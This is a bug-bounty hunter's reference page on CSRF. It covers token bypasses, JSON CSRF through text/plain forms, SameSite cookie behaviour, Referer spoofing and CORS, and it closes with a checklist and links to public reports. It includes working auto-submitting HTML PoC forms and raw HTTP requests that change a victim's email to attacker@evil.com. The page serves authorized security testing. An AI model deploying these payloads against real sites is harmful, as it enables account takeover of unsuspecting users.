

> Source: https://bugbounty.info/Attack-Surface/Web/Client-Side/CSRF

# CSRF

CSRF is not dead. It's just that the low-hanging fruit is gone  -  every modern framework ships anti-CSRF tokens by default, and SameSite=Lax is now the browser default. What's left is more interesting: token validation gaps, JSON endpoints, SameSite misconfigurations, and logic that developers assumed was "safe."

## When CSRF Still Matters in 2026

SameSite=Lax blocks most cross-site form posts but doesn't protect everything. Top-level navigations with GET are still allowed. SameSite=None means the old rules apply. And plenty of apps are still running legacy auth flows that pre-date SameSite defaults. Always check Set-Cookie headers before assuming you're wasting your time.



## Token Bypass Techniques

### Token Not Tied to Session

Submit the token from your own account with another user's session. If it validates, the token is global  -  not user-bound.

```http
POST /account/email/update HTTP/1.1
Cookie: session=VICTIM_SESSION
Content-Type: application/x-www-form-urlencoded
 
email=attacker@evil.com&csrf_token=ATTACKER_KNOWN_TOKEN
```

### Token Tied to Session But Removable

Delete the token parameter entirely. Some backends only validate it if it's present.

```text
email=attacker@evil.com&csrf_token=    -> 403
email=attacker@evil.com               -> 200  <- vulnerable
```

### Token in Cookie, Matched Against Header (Double Submit)

If the CSRF token is set as a cookie and the backend just checks `header == cookie`, you can exploit it if you have any cookie injection primitive  -  including a subdomain takeover or header injection.

### Referer-Based Validation

Some apps use the `Referer` header instead of tokens. Strip it entirely or supply a URL that contains the expected hostname:

```text
Referer: https://target.com.evil.com/
Referer: https://evil.com/?https://target.com
```

## JSON CSRF

`Content-Type: application/json` used to require a preflight, making cross-origin JSON posts impossible without CORS cooperation. That's still true for `application/json`. But a lot of apps accept JSON-encoded data with `text/plain`  -  which doesn't trigger a preflight.

```html
<!-- text/plain form encoding that sends JSON -->
<form method="POST" action="https://target.com/api/user/update" enctype="text/plain">
  <input name='{"email":"attacker@evil.com","ignore":"' value='"}'>
</form>
<script>document.forms[0].submit();</script>
```

The body arrives as: `{"email":"attacker@evil.com","ignore":"="}`  -  valid JSON if the server's parser is lenient.

Also test: does the API accept `application/x-www-form-urlencoded` as a fallback? I've seen "REST APIs" that silently decode form-encoded bodies because some framework middleware parses both formats.

## SameSite Cookie Deep Dive

| SameSite Value | Cross-site POST | Top-Level GET | Notes |
| --- | --- | --- | --- |
| Strict | Blocked | Blocked | Best protection |
| Lax (default since ~2021) | Blocked | Allowed | GET state changes still vulnerable |
| None | Allowed | Allowed | Must be Secure; classic CSRF surface |
| Not set (old browsers) | Allowed | Allowed | Legacy apps, treat as None |

The Lax grace period  -  Chrome had a 2-minute window where newly set Lax cookies were sent cross-site for top-level POSTs  -  is gone. But GET-based CSRF remains valid under Lax.

## CORS Preflight Bypass for CSRF

If a target has a permissive CORS config (`Access-Control-Allow-Origin: *` or reflecting origin), attackers can make credentialed cross-origin requests from JS  -  which is a different threat model from classical CSRF but achieves the same effect. The difference: with CORS you can read the response. See [CORS Misconfigurations](../../../Attack-Surface/Web/Client-Side/CORS).

## PoC Template

```html
<!DOCTYPE html>
<html>
<body>
<h2>CSRF PoC  -  [TARGET ACTION]</h2>
<form id="csrf" method="POST" action="https://target.com/account/update">
  <input type="hidden" name="email" value="attacker@evil.com">
  <!-- Remove csrf_token field if testing removal bypass -->
</form>
<script>document.getElementById('csrf').submit();</script>
</body>
</html>
```

For JSON content-type endpoints:

```html
<form id="csrf" method="POST" action="https://target.com/api/update" enctype="text/plain">
  <input name='{"email":"attacker@evil.com","x":"' value='"}'>
</form>
<script>document.forms[0].submit();</script>
```

## What Makes a CSRF Report Actually Pay

CSRF on a GET request that changes state  -  password reset, email change, account deletion. CSRF chained with [Clickjacking](../../../Attack-Surface/Web/Client-Side/Clickjacking) for user interaction. Account takeover via email/password change  -  that's typically P2. Profile update with no sensitive impact  -  P4, often OOS. Know your program's severity scale before submitting low-impact CSRF.

## Checklist

- Check every Set-Cookie header  -  what's the SameSite value?
- Find state-changing GET endpoints  -  they're vulnerable even under Lax
- For POST endpoints: is there a CSRF token?
- Try removing the token entirely
- Try using your own token with a victim's session
- Check if the endpoint accepts `text/plain` or form-encoding for JSON APIs
- Does the app use Referer validation? Test stripping and manipulating it
- Check for CORS config that would allow credentialed reads

## Public Reports

Real-world CSRF findings across bug bounty programs:

- CSRF on Bumble allowing social account linking for full account takeover - [HackerOne #127703](https://hackerone.com/reports/127703)
- Login CSRF on HackerOne bypassing authenticity token validation - [HackerOne #834366](https://hackerone.com/reports/834366)
- CSRF on DoD endpoint allowing account deletion - [HackerOne #856518](https://hackerone.com/reports/856518)
- CSRF on Periscope/X linking Facebook account for account takeover - [HackerOne #235642](https://hackerone.com/reports/235642)

## See Also

- [CORS Misconfigurations](../../../Attack-Surface/Web/Client-Side/CORS)
- [Clickjacking](../../../Attack-Surface/Web/Client-Side/Clickjacking)
- [Session Management](../../../Attack-Surface/Web/Authentication/Session-Management)
